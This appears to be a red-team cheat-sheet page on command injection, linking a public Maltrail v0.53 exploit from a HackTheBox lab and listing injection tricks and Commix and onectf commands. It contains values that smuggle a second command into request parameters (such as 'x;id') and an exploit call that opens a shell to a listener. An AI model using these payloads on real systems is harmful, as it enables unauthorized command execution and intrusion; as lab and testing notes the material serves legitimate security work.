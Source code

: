 # Command injection

<div class="row row-cols-lg-2"><div>

Refer to [injection](/cybersecurity/red-team/s4.privesc/linux/utils/injection.md#special-scenarios-) if you need to inject something in the arguments of a custom script.

* Windows Slash (`$env:HOMEPATH[0]`)
* Direct access to a program in a jail?
* <code>"\'\`{ls,-a}\`\'"</code> (error but execute)

#### Mailtrail v0.53

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

[POC (python script)](https://github.com/spookier/Maltrail-v0.53-Exploit) <small>(0.05k ⭐)</small>.

```shell!
$ python3 exploit.py listener_ip listener_port URL
```
</div><div>

**Tools** 📚

* [Commix](https://github.com/commixproject/commix) <small>(5.2k ⭐)</small> can detect and automatically exploit applications. It was coded in a similar way that SQLMap for SQL injections.

```ps
$ pipx install git+https://github.com/commixproject/commix.git
$ commix -u 'URL' -d 'xxx=*' # POST request, xxx vulnerable
```

* For manual testing, you can use [onectf request](https://github.com/QuentinRa/onectf/blob/main/docs/request.md) <small>(0.01k ⭐)</small> that automatically [URL encode](/tools-and-frameworks/knowledge/encoding/index.md#url-encoding---) the payload.

```ps
$ pipx install git+https://github.com/QuentinRa/onectf.git
$ onectf request -u 'URL' -v -X POST -p 'xxx' -i 'x;id'
$ onectf request -u 'URL' -v -X POST -p 'xxx' -i 'x;ls<tab>/'
$ onectf request -u 'URL' -v -X POST -p 'xxx' -i 'x;ls /' --tamper aliases,space2tab
```

📚 The wordlists [special-chars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/special-chars.txt) can be handy.
</div></div>